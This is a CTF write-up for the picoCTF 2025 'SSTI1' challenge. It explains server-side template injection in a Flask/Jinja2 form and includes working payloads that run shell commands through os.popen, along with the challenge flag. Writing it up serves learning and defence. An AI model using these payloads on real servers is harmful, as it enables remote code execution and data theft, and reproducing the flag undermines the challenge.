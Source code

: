 # SSTI1 - picoCTF 2025

## 📂 Category
- Web Exploitation  
- Difficulty: Easy  

---

## 🧩 Challenge Description
The challenge provided a simple web form that reflected user input. 

---

## 🔍 Initial Observations
- Entering expressions like `{{7*7}}` returned `49`, indicating possible Server-Side Template Injection (SSTI).
---

## 🧪 Exploitation Steps

1. Entered: {{7*7}} → Response was `49` → Confirmed SSTI.
2. Tried: {{request.application.\_\_globals\_\_.\_\_builtins\_\_.\_\_import\_\_('os').popen('id').read()}}
3. Got a system-level response confirming Remote Code Execution (RCE).
4. Ran: {{request.application.\_\_globals\_\_.\_\_builtins\_\_.\_\_import\_\_('os').popen('ls').read()}}
5. Server files listed.
6. Finally: {{request.application.\_\_globals\_\_.\_\_builtins\_\_.\_\_import\_\_('os').popen('cat flag').read()}}
7. Revealed the flag.

---

## 🏁 Flag

picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_424a1494}

---

## 🧠 What I Learned

**What is a Template Engine?**
A template engine helps generate dynamic web pages. Instead of hardcoding values, you write placeholders like:

```<p>Hello, {{ name }}!</p>```

The server fills in the actual data.

Here, this webpage uses Jinja2 of the python's flask framework on the server-side for making the webpage dynamic. Different frameworks run differently. For example, if the webpage was running Django instead, we can run {{7}}.

**What is SSTI?**
Server-Side Template Injection occurs when user input is unsafely inserted into a template. If an input like {{7\*7}} returns 49 (7 times 7 = 49), the server is evaluating user input as code. Running 7\*7 is just the standard convention, but you can run any expression, mathematical or not.

If unpatched, SSTI can lead to:
- Data leaks
- Remote code execution (RCE)
- Full server compromise

**Code explanation**

```{{ request.application.__globals__.__builtins__.__import__('os').popen('id').read() }}```

- ```request```	: A Flask object representing the current HTTP request.
- ```request.application``` : The Flask application instance being used.
- ```__globals__```: Accesses the global variables of the template’s underlying Python environment.
- ```__builtins__``` : Exposes all built-in Python functions and objects (like open, print, __import__, etc.).
- ```__import__('os')``` : Dynamically imports the os module — a powerful module for interacting with the system.
- ```.popen('id')``` : Runs the shell command id, which returns the current user and group info. Can replace with other commands (eg: ls, cat, etc)
- ```.read()``` : Reads and returns the output of that command.


---

## 📚 References

https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/

